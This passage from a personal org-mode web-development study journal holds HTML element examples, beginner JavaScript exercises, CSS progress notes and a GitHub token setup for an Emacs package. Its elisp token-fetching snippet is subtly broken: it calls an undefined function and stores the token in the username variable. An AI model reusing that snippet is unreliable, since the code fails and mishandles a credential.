></samp> <kbd>open mailbox</kbd>

<samp>Opening the mailbox reveals:
A leaflet.

></samp></pre>
  </body>
</html>
#+end_src

Initial whitespace ("prefixing" w.) matters.

** ~blockquote~

[[file:pages/blockquote.html][pages/blockquote.html]] ≡

#+begin_src html :tangle pages/blockquote.html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title></title>
  </head>

  <body>
    <blockquote>
      <p>I contend that we are both atheists. I just believe in one fewer
        god than you do. When you understand why you dismiss all the other
        possible gods, you will understand why I dismiss yours.</p>
    </blockquote>
    <p>— Stephen Roberts</p>
    <hr>
    <figure>
      <blockquote>
        <p>The truth may be puzzling. It may take some work to grapple with.
          It may be counterintuitive. It may contradict deeply held
          prejudices. It may not be consonant with what we desperately want to
          be true. But our preferences do not determine what's true. We have a
          method, and that method helps us to reach not absolute truth, only
          asymptotic approaches to the truth — never there, just closer
          and closer, always finding vast new oceans of undiscovered
          possibilities. Cleverly designed experiments are the key.</p>
      </blockquote>
      <figcaption>Carl Sagan, in "<cite>Wonder and Skepticism</cite>", from
        the <cite>Skeptical Inquirer</cite> Volume 19, Issue 1 (January-February
        1995)</figcaption>
        </figure>
    <hr/>
    <article>
      <h1><a href="https://bacon.example.com/?blog=109431">Bacon on a crowbar</a></h1>
      <article>
        <header><strong>t3yw</strong> 12 points 1 hour ago</header>
        <p>I bet a narwhal would love that.</p>
        <footer><a href="?pid=29578">permalink</a></footer>
        <article>
          <header><strong>greg</strong> 8 points 1 hour ago</header>
          <blockquote><p>I bet a narwhal would love that.</p></blockquote>
          <p>Dude narwhals don't eat bacon.</p>
          <footer><a href="?pid=29579">permalink</a></footer>
          <article>
            <header><strong>t3yw</strong> 15 points 1 hour ago</header>
            <blockquote>
              <blockquote><p>I bet a narwhal would love that.</p></blockquote>
              <p>Dude narwhals don't eat bacon.</p>
            </blockquote>
            <p>Next thing you'll be saying they don't get capes and wizard
              hats either!</p>
            <footer><a href="?pid=29580">permalink</a></footer>
            <article>
              <article>
                <header><strong>boing</strong> -5 points 1 hour ago</header>
                <p>narwhals are worse than ceiling cat</p>
                <footer><a href="?pid=29581">permalink</a></footer>
              </article>
            </article>
          </article>
        </article>
        <article>
          <header><strong>fred</strong> 1 points 23 minutes ago</header>
          <blockquote><p>I bet a narwhal would love that.</p></blockquote>
          <p>I bet they'd love to peel a banana too.</p>
          <footer><a href="?pid=29582">permalink</a></footer>
        </article>
      </article>
    </article>
    <hr>
    <p>He began his list of "lessons" with the following:</p>
    <blockquote>One should never assume that his side of
      the issue will be recognized, let alone that it will
      be conceded to have merits.</blockquote>
    <p>He continued with a number of similar points, ending with:</p>
    <blockquote>Finally, one should be prepared for the threat
      of breakdown in negotiations at any given moment and not
      be cowed by the possibility.</blockquote>
    <p>We shall now discuss these points...</p>
  </body>
</html>
#+end_src

** ~ol~

[[file:pages/ol.html][pages/ol.html]] ≡

#+begin_src html :tangle pages/ol.html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>ol</title>
  </head>

  <body>
    <p>I have lived in the following countries (given in the order of when
      I first lived there):</p>
    <hr>
    <ol>
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol reversed>
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol reversed start="3">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol reversed start="2">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol type="I" start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol type="i" start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol type="A" start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol type="a" start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
  </body>
</html>
#+end_src

** ~menu~

[[file:pages/menu.html][pages/menu.html]] ≡

#+begin_src html :tangle pages/menu.html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>menu</title>
  </head>

  <body>
    <menu>
      <li><button onclick="copy()"><img src="copy.svg" alt="Copy"></button></li>
      <li><button onclick="cut()"><img src="cut.svg" alt="Cut"></button></li>
      <li><button onclick="paste()"><img src="paste.svg" alt="Paste"></button></li>
    </menu>
  </body>
</html>
#+end_src

** ~dl~

[[file:pages/dl.html][pages/dl.html]] ≡

#+begin_src html :tangle pages/dl.html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>dl</title>
  </head>

  <body>
    <dl>
      <dt> Authors
        <dd> John
          <dd> Luke
            <dt> Editor
              <dd> Frank
    </dl>
    <hr>
    <dl>
      <div itemscope itemtype="http://schema.org/Product">
        <dt itemprop="name">Café ou Chocolat Liégeois
          <dd itemprop="offers" itemscope itemtype="http://schema.org/Offer">
            <span itemprop="price">3.50</span>
            <data itemprop="priceCurrency" value="EUR">€</data>
            <dd itemprop="description">
              2 boules Café ou Chocolat, 1 boule Vanille, sauce café ou chocolat, chantilly
      </div>

      <div itemscope itemtype="http://schema.org/Product">
        <dt itemprop="name">Américaine
          <dd itemprop="offers" itemscope itemtype="http://schema.org/Offer">
            <span itemprop="price">3.50</span>
            <data itemprop="priceCurrency" value="EUR">€</data>
            <dd itemprop="description">
              1 boule Crème brûlée, 1 boule Vanille, 1 boule Caramel, chantilly
      </div>
    </dl>
    <hr>
    <dl>
      <dt><dfn>happiness</dfn></dt>
      <dd class="pronunciation">/ˈhæpinəs/</dd>
      <dd class="part-of-speech"><i><abbr>n.</abbr></i></dd>
      <dd>The state of being happy.</dd>
      <dd>Good fortune; success. <q>Oh <b>happiness</b>! It worked!</q></dd>
      <dt><dfn>rejoice</dfn></dt>
      <dd class="pronunciation">/rɪˈdʒɔɪs/</dd>
      <dd><i class="part-of-speech"><abbr>v.intr.</abbr></i> To be delighted oneself.</dd>
      <dd><i class="part-of-speech"><abbr>v.tr.</abbr></i> To cause one to be delighted.</dd>
    </dl>
  </body>
</html>
#+end_src

** ~figure~

Things with a caption.

[[file:pages/figure.html][pages/figure.html]] ≡

#+begin_src html :tangle pages/figure.html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>figure</title>
  </head>

  <body>
    <p>In <a href="#l4">listing 4</a> we see the primary core interface
      API declaration.</p>
    <figure id="l4">
      <figcaption>Listing 4. The primary core interface API declaration.</figcaption>
      <pre><code>interface PrimaryCore {
  boolean verifyDataLine();
  undefined sendData(sequence&lt;byte> data);
  undefined initSelfDestruct();
}</code></pre>
    </figure>
    <p>The API is designed to use UTF-8.</p>
    <hr/>
    <figure>
      <figcaption>The castle through the ages: 1423, 1858, and 1999 respectively.</figcaption>
      <figure>
        <figcaption>Etching. Anonymous, ca. 1423.</figcaption>
        <img src="castle1423.jpeg" alt="The castle has one tower, and a tall wall around it.">
      </figure>
      <figure>
        <figcaption>Oil-based paint on canvas. Maria Towle, 1858.</figcaption>
        <img src="castle1858.jpeg" alt="The castle now has two towers and two walls.">
      </figure>
      <figure>
        <figcaption>Film photograph. Peter Jankle, 1999.</figcaption>
        <img src="castle1999.jpeg" alt="The castle lies in ruins, the original tower all that remains in one piece.">
      </figure>
    </figure>
    <hr/>
    <figure>
      <img src="castle1423.jpeg" title="Etching. Anonymous, ca. 1423."
        alt="The castle has one tower, and a tall wall around it.">
      <img src="castle1858.jpeg" title="Oil-based paint on canvas. Maria Towle, 1858."
        alt="The castle now has two towers and two walls.">
      <img src="castle1999.jpeg" title="Film photograph. Peter Jankle, 1999."
        alt="The castle lies in ruins, the original tower all that remains in one piece.">
      <figcaption>The castle through the ages: 1423, 1858, and 1999 respectively.</figcaption>
    </figure>
  </body>
</html>
#+end_src

** ~main~

[[file:pages/main.html][pages/main.html]] ≡

#+begin_src html :tangle pages/main.html
<!DOCTYPE html>
<html lang="en">
  <title>RPG System 17</title>
  <style>
  header, nav, aside, main, footer {
    margin: 0.5em; border: thin solid; padding: 0.5em;
    background: #EFF; color: black; box-shadow: 0 0 0.25em #033;
  }
  h1, h2, p { margin: 0; }
  nav, main { float: left; }
  aside { float: right; }
  footer { clear: both; }
  </style>
  <header>
    <h1>System Eighteen</h1>
  </header>
  <nav>
    <a href="../16/">← System 17</a>
    <a href="../18/">RPXIX →</a>
  </nav>
  <aside>
    <p>This system has no HP mechanic, so there's no healing.
  </aside>
  <main>
    <h2>Character creation</h2>
    <p>Attributes (magic, strength, agility) are purchased at the cost of one point per level.</p>
    <h2>Rolls</h2>
    <p>Each encounter, roll the dice for all your skills. If you roll more than the opponent, you win.</p>
  </main>
  <footer>
    <p>Copyright © 2013
  </footer>
</html>
#+end_src

[[file:pages/main-2.html][pages/main-2.html]] ≡

#+begin_src html :tangle pages/main-2.html
<!doctype html>
<html lang=en-CA>
<meta charset=utf-8>
<title> … </title>
<link rel=stylesheet href=spa.css>
<script src=spa.js async></script>
<nav>
 <a href=/>Home</a>
 <a href=/about>About</a>
 <a href=/contact>Contact</a>
</nav>
<main>
 <h1>Home</h1>
 …
</main>
<main hidden>
 <h1>About</h1>
 …
</main>
<main hidden>
  <h1>Contact</h1>
  …
</main>
<footer>Made with ❤️ by <a href=https://example.com/>Example 👻</a>.</footer>
#+end_src

** ~em~ and ~strong~

- ~em~ is for *emphasis*
  - same voice, different tone
  - ~i~: different voice
- ~strong~ is for *importance*
  - ~b~: keywords

** ~small~

For small print.

[[file:pages/small.html][pages/small.html]] ≡

#+begin_src html :tangle pages/small.html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>small</title>
  </head>

  <body>
    <p>Example Corp today announced record profits for the
      second quarter <small>(Full Disclosure: Foo News is a subsidiary of
      Example Corp)</small>, leading to speculation about a third quarter
      merger with Demo Group.
    </p>
    <p><q>This is correct</q>, said Ian.</p>
  </body>
</html>
#+end_src

** Web Workers

[[file:pages/web-worker.html][pages/web-worker.html]] ≡

#+begin_src html :tangle pages/web-worker.html
<!DOCTYPE HTML>
<html lang="en">
 <head>
  <meta charset="utf-8">
  <title>Worker example: One-core computation</title>
 </head>
 <body>
  <p>The highest prime number discovered so far is: <output id="result"></output></p>
  <script>
   var worker = new Worker('./worker.js');
   worker.onmessage = function (event) {
     console.log('hehe');
     document.getElementById('result').textContent = event.data;
   };
  </script>
 </body>
</html>
#+end_src

[[file:pages/worker.js][pages/worker.js]] ≡

#+begin_src js :tangle pages/worker.js
var n = 1;
search: while (true) {
  n += 1;
  for (var i = 2; i <= Math.sqrt(n); i += 1)
    if (n % i == 0)
     continue search;
  // found a prime!
  postMessage(n);
}
#+end_src

** Finished reading the HTML Standard (kind of)

Just finished reading the HTML Standard---skipping a lot of technical details.
Very interesting.
Funny to see the authors have a sense of humor :)

When I started reading, I wanted to

- Have a basic knowledge of all the elements
  - This was accomplished, as the Standard lists them all, with all the details.
- Learn how to do /responsive/ work with images
  - This was advanced, but I need to practice.
- Learn about Web Workers (and Worklets)
  - Idem.

** What now?

After reading the Standard, I still need to practice that knowledge.
I couldn't memorize each and every detail, so I need to apply to learn.
There are several good ways to learn, but I'll stick to Odin for now--- I'm invested.

** 1h of Coding

Wow!
Today another 1h of coding provided by our friend ChatGPT.
This time I had a harder time keeping up!
Couldn’t finish all the exercises in 1h.
But learned a lot!

[[file:pages/2025-10-05_1h.html][pages/2025-10-05_1h.html]] ≡

#+begin_src html :tangle pages/2025-10-05_1h.html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>JS with ChatGPT</title>
    <style>
    .dark {
      background-color: black;
      color: white;
    }
    </style>
  </head>

  <body id="body">
    <ul>
      <li><button id="start">Start Timer</button></li>
      <li><button id="stop">Stop Timer</button></li>
      <li><p id="display">0</p></li>
      <li><button id="buttonDarkMode">Toggle Dark Mode</button></li>
      <li><button id="buttonRandomFruit">Random Fruit</button></li>
      <li><p id="pRandomFruit"></p></li>
    </ul>
    <hr>
    <ul id="tasksUl"></ul>
    <script>
    /* Minute 0–10: Timers
     ,* 12. Add a button “Start Timer” and a <p> that starts counting up seconds when clicked.
     ,* Bonus: add a “Stop Timer” button.
     ,* Learn: setInterval, clearInterval. */
    const display = document.getElementById("display");
    function updateDisplay() {
      display.textContent = Number(display.textContent) + 1;
    }
    const start = document.getElementById("start");
    const stop = document.getElementById("stop");
    let intervalID = 0;
    start.addEventListener("click", () => {
      if (!intervalID) {
        intervalID = setInterval(updateDisplay, 1000);
      }
    });
    stop.addEventListener("click", () => {
      clearInterval(intervalID);
      intervalID = 0;
    });

    /* Minute 10–20: Toggle behavior
     ,* 13. Add a button “Toggle Dark Mode.”
     ,* Clicking it should switch the page background to black and text to white, and back again.
     ,* Learn: class toggling (element.classList.toggle). */
    const body = document.getElementById("body");
    document.getElementById("buttonDarkMode")
            .addEventListener("click", () => {
              body.classList.toggle("dark");
            });

    /* Minute 20–30: Random fun
     ,* 14. Add a button “Random Fruit.”
     ,* Reuse your fruits array. Each click should display one random fruit in a <p>.
     ,* Learn: Math.floor(Math.random() * arr.length). */
    function getRandomItem(arr) {
      const i = Math.floor(Math.random() * arr.length);
      return arr[i];
    }
    const fruits = ['apple', 'banana', 'pineapple', 'grapefruit', 'orange'];
    document.getElementById("buttonRandomFruit")
            .addEventListener("click", () => {
              document.getElementById("pRandomFruit").textContent =
                getRandomItem(fruits);
            });

    /* Minute 30–40: Arrays of objects
     ,* 15. Create an array of “tasks,” each object with {text: "Do homework", done: false}.
     ,* Write a function to print them all into a <ul>.
     ,* Bonus: strike-through text if done is true.
     ,* Learn: DOM lists, iterating objects. */
    const tasks = [
      {text: "Do homework", done: false,},
      {text: "Do laundry", done: false,},
      {text: "Walk the dogs", done: false,},
      {text: "Fix spaceship", done: false,},
      {text: "Adopt a giraffe", done: true,},
    ];

    for (const task of tasks) {
      let taskLi = document.createElement('li');
      let taskText = document.createTextNode(task.text);
      if (task.done) {
        let sElement = document.createElement("s");
        sElement.appendChild(taskText);
        taskLi.appendChild(sElement);
      } else {
        taskLi.appendChild(taskText);
      }
      document.getElementById("tasksUl").appendChild(taskLi);
    }
    </script>
  </body>
</html>
#+end_src

** Seinfeld Checkmark

[[file:images/2025-10-05_seinfeld.jpeg]]

* [2025-10-04 Sat]

** Google's course

Today I wanna do something "risky": peak at [[https://web.dev/][Google's webdev course]].
I’m feeling curious about a lot of technical nuances and details, and kinda looking for some course that is a middle ground between /hands-on/-focused and /technical-standards/-focused.
The idea is to go over the curriculum, and then reflect.
When I was reading the HTML tech specs, I saw a lot of things that weren't covered on the tutorials; /cool/ things!
I don't know if I should focus on those specs first, or courses, or books.
But I believe a quick look at the curriculum can't hurt.
Let's do it!

The HTML Course is heavily based on the official HTML Standard, but, still, very /fragmented/, and sometimes /vague/.

** HTML Standard

I'm feeling /adventurous/.
Gonna give a peek at the Standard this weekend.

Just read the first 3 chapters; very /technical/---skipped a lot of details.
But the advantage I see is: /not/ consuming a piece of information is /voluntary/, as opposed to consuming third-party tutorials and courses, where they /decide/ which information to ommit.
The problem is: there are no /exercises/; I'll have to deal with that deficiency somehow; probably with tutorials and courses, but /after/ having a general idea of the whole shabang.

** Coding hour

I was half-intending to consider reading the HTML Standard as /valid coding/ for the 1h/day streak.
But... nah.
Then I tried to find something to code.
I want either Elisp or JavaScript.
JavaScript, for focus on current major learning goals.
Exercism, HackerRank, LeetCode, all very advanced problems.
Then asked ChatGPT for some, and this is what I got:

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>JS with ChatGPT</title>
  </head>
  <body>
    <section>
      <button id="leButton">Je suis leButton</button>
      <p id="leP">Je suis leP.</p>
    </section>
    <section>
      <button id="buttonColorize">Colorize!</button>
    </section>
    <section>
      <input id="leInput" type="Text">
      <button id="leInputButton">Je suis leInputButton</button>
      <p id="leInputP">Je suis leInputP.</p>
    </section>
    <section>
      <p id="leCounterP">0</p>
      <button id="leCounterButtonPlus">+</button>
      <button id="leCounterButtonMinus">-</button>
    </section>

    <script>
     /* 1. Print “Hello, world!” in the console. */
     console.log('Hello, World!');

     /* 2. Store your name in a variable and log Hello, <name>!. */
     const name="Rafael";
     console.log(`Hello, ${name}!`);

     /* 3. Write a function double(n) that returns n * 2.
        Test it with
        console.log(double(5)). */
     function double(n) {
       return n * 2;
     }
     console.log(double(5));

     /* 4. Ask the user for a number (prompt). If it’s even, log “even”; else “odd”. */
     /* const number = Number(prompt('Give me a number, please.'));
      * if (number % 2 === 0) {
      *   console.log('even');
      * } else {
      *   console.log('odd');
      * } */

     /* 5. Create a function max(a, b) that returns the bigger number. */
     function max(a, b) {
       if (a > b) {
         return a;
       } else {
         return b;
       }
     }

     /* 6. Make an array of 5 fruits. Loop through it and log each fruit. */
     const fruits = ['apple', 'banana', 'pineapple', 'grapefruit', 'orange'];
     for (let i = 0; i < fruits.length; i++) {
       console.log(fruits[i]);
     }

     for (const fruit of fruits) {
       console.log(fruit.toUpperCase());
     }

     /* 7. Write a function that takes an array of numbers and returns their sum. */
     const numbers = [1, 2, 3];
     const sum = numbers.reduce((sum, number) => sum + number);
     console.log(sum);

     /* 8. In HTML, add a <button> and a <p>.
        In JS, when you click the button, change the <p> text to “Button clicked!”. */
     const leButton = document.getElementById("leButton");
     const leP = document.getElementById("leP");
     leButton.addEventListener("click", function () {
       leP.textContent = "Button clicked!";
     });

     /* 9. Add another button that, when clicked, changes the page background color randomly. */
     function randomColor() {
       const randomColor = Math.floor(Math.random() * 16777215).toString(16);
       // Pad with leading zeros if the hex string is shorter than 6 characters
       return `#${randomColor.padStart(6, '0')}`;
     }

     const buttonColorize = document.getElementById("buttonColorize");
     buttonColorize.addEventListener("click", function () {
       color = randomColor();
       console.log(color);
       document.body.style.backgroundColor = color;
     });

     /* 10. Add an <input> and a button.
        When you click the button, display “Hello, <input value>!” in a <p>. */
     const leInput = document.getElementById("leInput");
     const leInputButton = document.getElementById("leInputButton");
     const leInputP = document.getElementById("leInputP");
     leInputButton.addEventListener("click", function () {
       leInputP.textContent = `Hello, ${leInput.value}!`;
     });

     /* Minute 50–60: Mini-project
      * 11. Build a tiny “counter”:
      *     - Add a <p> that shows 0.
      *     - Add “+” and “–” buttons.
      *       - Clicking “+” increases the number, “–” decreases it. */
     const leCounterP = document.getElementById("leCounterP");
     const leCounterButtonPlus = document.getElementById("leCounterButtonPlus");
     const leCounterButtonMinus = document.getElementById("leCounterButtonMinus");
     leCounterButtonPlus.addEventListener("click", function () {
       leCounterP.textContent = `${Number(leCounterP.textContent) + 1}`;
     });
     leCounterButtonMinus.addEventListener("click", function () {
       leCounterP.textContent = `${Number(leCounterP.textContent) - 1}`;
     });
    </script>
  </body>
</html>
#+end_src

After I submitted my solutions, ChatGPT
- complimented the random color generator (Google's LOL)

  #+begin_quote
  Stylistic note
  Your random color generator is neat — padding the hex code was a smart touch! That’s something even many beginners forget.
  #+end_quote
- gave some stylistic and best practices that I didn't agree at first

  #+begin_quote
  Counter readability
  Instead of converting textContent back and forth each click, you could keep a separate variable:
  #+end_quote

  #+begin_src js
  let counter = 0;
  function updateCounter() {
    leCounterP.textContent = counter;
  }
  leCounterButtonPlus.addEventListener("click", () => {
    counter++;
    updateCounter();
  });
  leCounterButtonMinus.addEventListener("click", () => {
    counter--;
    updateCounter();
  });
  updateCounter();
  #+end_src

  My version is more compact, but looks clumsier.
  I could have also done away with the ~`...`~, as it accepts numbers.

  #+begin_src js
  leCounterButtonPlus.addEventListener("click", function () {
      leCounterP.textContent = `${Number(leCounterP.textContent) + 1}`;
  });
  leCounterButtonMinus.addEventListener("click", function () {
      leCounterP.textContent = `${Number(leCounterP.textContent) - 1}`;
  });
  #+end_src



Learned another one!

Surprisingly, it took me just about one hour to do those!
Good on you, ChatGPT!

** Seinfeld Checkmark

[[file:images/2025-10-04_seinfeld.jpeg]]

* [2025-10-03 Fri]
Today I start a new lesson, and a new branch on the assignment tree: /Cascade/, the *C* from CSS.
Just read the lesson text, and now am complementing with the Wikipedia article.
I realized that the more formal texts (like standards) work better for me.
Maybe it's because I like the /raw/ info/rules, and then make my own analogies.

Doing some clean-up on the 02-... assignment.
Also did some cleanup for the other assignments (portfolios should be good looking!)

** 01-cascade-fix
Finished this one today.
It was about that apparently bothers devs a lot: find out the culprit for unexpected styling behavior.
I like that type of mental game!

** Seinfeld Checkmark

[[file:images/2025-10-03_seinfeld.jpeg]]

* [2025-10-02 Thu]

Check out the links for each exercise, with all the action [[https://github.com/rafaelbeirigo/odin-css-exercises][here]].

** 02-class-id-selectors
Just finished second CSS Assignment, and added a checkmark to the [[https://github.com/rafaelbeirigo/odin-css-exercises/tree/main][main README of the tasks]].
This one I had to fix a minor detail after finishing it, and then looking at the recommended solution.
I didn't catch one shared property among elements, which could make code legibility and maintenance much easier.
Learned another one!

Now, out to busking, and later some more!

** 03-grouping-selectors
Back from busking, very tired.
But ready to code!

Used my free time to read ahead the [[https://github.com/rafaelbeirigo/odin-css-exercises/tree/main/foundations/intro-to-css/03-grouping-selectors][next assignment]].
Let's get to it.
Done!
After 48 minutes.

For this exercise, I just went full LP, finished the assignment, and /only then/ commited the chunks.
It was much easier to get things flowing, but a little bit messier when dealing with text edits.
But I believe this is a nice approach.

** 04-chaining-selectors
This one was the quickest so far!
Again, LP, and then commit helped.

** 05-descendant-combinator
This was even quicker: 8 minutes!

And with it, I finished the first branch, =intro-to-css=!

** Seinfeld Checkmark
[[file:images/2025-10-02_seinfeld.jpeg]]

* [2025-10-01 Wed]
Today started with some final polishing on the [[https://github.com/rafaelbeirigo/odin-recipes][Recipes Project]].

Writing the commits before coding was a success.
Very comforting to code when you know there's a light at the end of the tunnel, and no rework will be necessary (well, maybe /less/ work...)

Just found out that the [[https://html.spec.whatwg.org/dev][HTML Specification has a version for developers]].
Did some reading, nice stuff.
But potentially a rabbit hole.
Will focus on [[https://www.theodinproject.com/][Odin]].

Now, I start learning CSS!

The action is happening in my [[https://github.com/rafaelbeirigo/odin-css-exercises/blob/main/foundations/intro-to-css/01-css-methods/README.org][forked repo of the CSS Exercises]].

** Notes from today
- I'm clocking my work, and this is helping to keep me grounded, and also learn realistic timetable expectations;
- CSS is fun
- Literate Programming is really helpful to organize the work, especially so when I must leave the work half-finished, and come back later: it's faster to hit the ground running with LP

** Seinfeld Checkmark

[[file:images/2025-10-01_seinfeld.jpeg]]

* [2025-09-30 Tue]
Back at it!

This new project felt too simple.
I kinda underestimated it and couldn't do something I wanted: a clean commit history from the beginning.
I'll try another approach today: write the commit messages /before/ coding.
Let's see how that goes.
(Still working on the [[https://github.com/rafaelbeirigo/odin-recipes][project Recipes from Odin]]).

Edit: You can see the final version of the page [[https://rafaelbeirigo.github.io/odin-recipes/][here]] (three recipes inspired on Harry Potter's books).

** Systems Thinking
Just heard about it this week.
I believe I applied it today.
I love it!

** Results: Writing the commits before coding
/Very/ helpful, much better!
Knowing that each task had a purpose, and that we would get to the final product was very empowering and calming.
I'd call it a success!

** Seinfeld Checkmark

[[file:images/2025-09-30_seinfeld.jpeg]]

* [2025-09-29 Mon]
Back to HTML!

We're approaching a project on Odin!

Starting with Git.

Just learned about Commit Messages.

Next is a project, and then we start CSS.

** Digression on Git

I have been thinking about yesterday's work, with lots of refactoring, while porting to LP.
It was difficult to keep a clean commit history.

I believe the best way to accomplish it is by planning beforehand.
I have some ideas, that I will experiment with in this next project.

** Project: Recipes

Check it out [[https://github.com/rafaelbeirigo/odin-recipes][here]].

** Seinfeld Checkmark

Hoje foi um dia difícil, mas consegui o X!

[[file:images/2025-09-29_seinfeld.jpeg]]

* [2025-09-28 Sun]
Thought of doing some elisp coding this sunday.
I have this [[https://github.com/rafaelbeirigo/ma-github][project that creates Github repositories directly from inside Emacs]].
As they say: "Life is better when you don't have to leave your editor".

Last time I touched it was 3 years ago.

Today I thought of checking it out, seeing how it stands, and maybe hacking it a bit.
So, for this coding, all the action will happen  [[https://github.com/rafaelbeirigo/ma-github/commits/dev/][commit history for the dev branch of the repository of that project]].

This is how it went.

** Create a Github token
*** First try: Generate a classic token with all the powers
**** Generate
I just checked out if I had the repo in my machine, and it was there.

Then I followed the repo's instructions to run it.
You need an *access token*, and I had to create one.
The proccess was cryptic:
- You have to choose the powers of your token;
- I wanted the power to *create a repository*;
- I couldn't find that option there.


After getting scared by the implications of them insisting on an /expiration date/ for the token, I wanted to create the least powerful, but still useful token.
Invested a dozen minutes trying to read throught the docs, and then realized *I was going down a rabbit hole*.

Decided on just creating the most powerful token possible, with a very short expiration date---seven days (/The Ring/, anyone?).
The steps were:

1. Open the [[https://github.com/settings/tokens/new][page to generate a /Classic/ token]]
2. Put on *Note*: ma-github
3. On *Expiration*: 7 days
4. On *Select scopes*: select everything
5. Click *Generate token*
6. Copy the generated token and paste it on a safe place

**** Access from inside Emacs
Here I Needed some help from ChatGPT:

#+begin_quote
i want to have my Github token accessed by Emacs
How should I do it?
#+end_quote

Then ChatGPT inspired me to change gears.

*** Second try (ChatGPT): Generate a fine-grained token with minimal powers
**** Generate
1. Go to the [[https://github.com/settings/personal-access-tokens][Github page to generate a fine-grained token]]
2. Click *Generate new token*
3. *Token name*: ma-github
4. *Resource owner*: the Github account where the repositories will be created
5. *Expiration*: 30 days
6. *Repository access*: All repositories
7. *Permissions*
   1. Click the *+* button on the upper-right corner
   2. Select *Administration*
   3. Click outside of the selection thingy to make it disappear
   4. On the new item *Administration*, change from *Read-only* to *Read and write*
8. Click *Generate token*
9. Click *Generate token* again, on the pop-up window
10. Copy the token
11. Paste it somewhere safe

**** Access from inside Emacs

***** Set up *authinfo*

1. Follow this [[https://www.masteringemacs.org/article/keeping-secrets-in-emacs-gnupg-auth-sources][instructions to create =~/.authinfo.gpg~]]

   1. Create a key

      1. Open a terminal and run the command

         #+begin_src shell
         gpg --gen-key
         #+end_src

      2. Inform your real name and then your email

      3. It will generate a key in =~/.gnupg=

2. Create (or edit) the file =~/.authinfo.gpg= in Emacs. Use this format (one line per entry):

   #+begin_example
   machine api.github.com login YOUR_GITHUB_USERNAME password <YOUR_TOKEN>
   #+end_example

3. Change the permissions of the file to make it more secure

   #+begin_src shell
   chmod 600 ~/.authinfo.gpg
   #+end_src

***** Fetch the token using *authinfo*

This code snippet uses the token created before to give =ma-github= access to Github.
It

1. Asks for a Github username, and then

2. Sets the environment variables needed by =ma-github=.

#+begin_src elisp
;; ensure auth-source uses the default backends (it does by default)
;; Here is a tiny helper that reads the token and (optionally) sets env var:

(require 'auth-source)

(defun ma-github-token-from-authinfo (&optional username)
  "Find a GitHub token from auth-source for api.github.com and return the secret string."
  (let* ((host "api.github.com")
         (user (or username user-login-name))
         (entry (car (auth-source-search :host host :user user :max 1))))
    (when entry
      (let ((secret (plist-get entry :secret)))
        (if (functionp secret) (funcall secret) secret)))))

;; optional: make token available to Emacs subprocesses (e.g. `curl` from Emacs)
(let* ((user (read-string "Github username: "))
       (tok (my/github-token-from-authinfo user)))
  (when user
    (setenv "MA_GITHUB_USER" tok))
  (when tok
    (setenv "MA_GITHUB_TOKEN" tok)))
#+end_src

Now let's try and create a repo with ma-github.

#+begin_quote
M-x ma-github-create
#+end_quote

And here is the [[https://github.com/rafaelbeirigo/hello-ma-github][Github repository created using ma-github]]!

Now let's integrate the *auth-source* functionality.

Timeline (I tried, but too distracting!):

1. [2025-09-28 Sun 13:13] Breaking the code down in LP blocks.

2. [2025-09-28 Sun 13:13] info on defun optional arguments

3. [...] All the action is on the [[https://github.com/rafaelbeirigo/ma-github/commits/dev/][commit history for the dev branch]].

4. [2025-09-28 Sun 21:02] Ported to LP and tested: (ma-github-create NAME)

I tried my best to be organized, but it's messy.
Next step is to reorganize the commits.
Not for /functionality/, but /learning/.

** Seinfeld Checkmark

[[file:images/2025-09-28_seinfeld.jpeg]]

* [2025-09-27 Sat]
Starting later today.
Overslept.

Let's do this!

** Lists
#+begin_quote
To get some practice using lists, create a new HTML document and create the following lists:
1. An unordered shopping list of your favorite foods
2. An ordered list of todo’s you need to get done today
3. An unordered list of places you’d like to visit someday
4. An ordered list of your all time top 5 favorite video games or movies
#+end_quote

Create the structure for main HTML doc:

[[file:odin/assignments/foundations/lists/index.html][odin/assignments/foundations/lists/index.html]] ≡

#+begin_src html :tangle ~/dev/webdev-study/odin/assignments/foundations/lists/index.html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>My first page from Odin</title>
  </head>

  <body>
    <<food>>
    <<todos>>
    <<places>>
    <<games>>
  </body>
</html>
#+end_src

#+begin_quote
1. An unordered shopping list of your favorite foods
#+end_quote

~<<food>> +≡~

#+begin_src html :noweb-ref food
<h1>My favorite foods</h1>
<ul>
  <li>Lasagna</li>
  <li>Pork ribs</li>
  <li>Avocado with lemon</li>
  <li>Oatmeal</li>
  <li>Warm bread with (real) butter</li>
</ul>
#+end_src

#+begin_quote
2. An ordered list of todo’s you need to get done today
#+end_quote

~<<todos>> +≡~

#+begin_src html :noweb-ref todos
<h1>Todos for Todays</h1>
<ol>
  <li>Code a minimum of 1h</li>
  <li>Exercise and stretch</li>
  <li>Busking</li>
  <li>Play with dogs</li>
  <li>RPG with ChatGPT</li>
</ol>
#+end_src

#+begin_quote
3. An unordered list of places you’d like to visit someday
#+end_quote

~<<places>> +≡~

#+begin_src html :noweb-ref places
<h1>Places I want to visit</h1>
<ul>
  <li>Paris</li>
  <li>Japan</li>
